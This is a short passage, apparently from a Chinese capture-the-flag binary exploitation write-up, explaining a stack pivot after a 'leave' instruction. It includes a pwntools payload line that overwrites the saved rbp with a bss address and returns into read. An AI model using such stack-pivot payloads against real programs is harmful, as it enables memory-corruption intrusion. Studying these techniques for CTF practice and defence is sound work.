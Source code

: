回头看一下 leave 处 `mov esp,ebp; pop ebp;`​，应该是 leave 前 0x60

1600 未能放入 rbp 导致的

[![](assets/1701606597-3a56de29af806f518eada3b52cdd3dac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170249-eaa9dd1a-845e-1.png)

[![](assets/1701606597-b1861dd4b19a7ccaa10fb368b0691916.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170254-edb2df84-845e-1.png)

再构造一次 read，并调整 rsp

```bash
pl = b'a'*0x20+p64(bss6+0x20)+p64(read) #2
p.send(pl)
```

这里 bss6 所加的就是 buf 的偏移
